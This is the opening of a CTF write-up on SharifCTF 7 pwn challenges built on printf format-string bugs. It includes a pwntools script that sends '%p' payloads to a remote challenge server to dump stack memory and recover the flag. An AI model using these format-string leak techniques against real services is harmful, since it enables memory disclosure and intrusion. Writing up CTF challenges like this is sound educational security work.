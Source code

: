 ```yaml
---
title: 'SharifCTF 7: Guess (pwn 50), Persian (pwn 150), NoMoreBlind (pwn 200)'
date: 2016-12-18 00:00:00 Z
categories:
- writeup
tags:
- cat/pwn
- tool/pwntools
- vuln/fmtstr
layout: post
author: f0rki
---
```


## Format Strings Everywhere

The first three pwn challenges were all about format strings. They are very
similar as they all basically do nothing more than:

```c
char buf[N];
fgets(&buf, N, stdin);
printf(buf);
```

...and differ only in some minor details. We weren't given any binaries for the
challenges so it was rather hard to exploit this obvious bugs, because we had 
neither the binary or the libc.


## Write-up Guess

This one was pretty easy. The flag was stored on the stack. With a little
python and pwntools scripting we can easily dump the stack contents and just
read the flag.

```python
#!/usr/bin/env python

from pwn import *  # NOQA

vp = remote("ctf.sharif.edu", 54517)


def dump_stack(at=None, n=2048):
    pl = ""
    if at:
        for i in range(n // 8):
            pl += "%{}$p.".format(at + i)
    else:
        pl = ".%p" * (n // 8)
    vp.sendline(pl)
    vp.readline()
    x = vp.readline().strip().strip(".")
    stack_leak = x.split(".")[1:]
    stack_leak = map(lambda y: 0 if "nil" in y else int(y, 16), stack_leak)
    return stack_leak


sl = dump_stack()
# log.info("\n".join(map(hex, sl)))
slb = "".join(map(p64, sl))
log.info(hexdump(slb))

```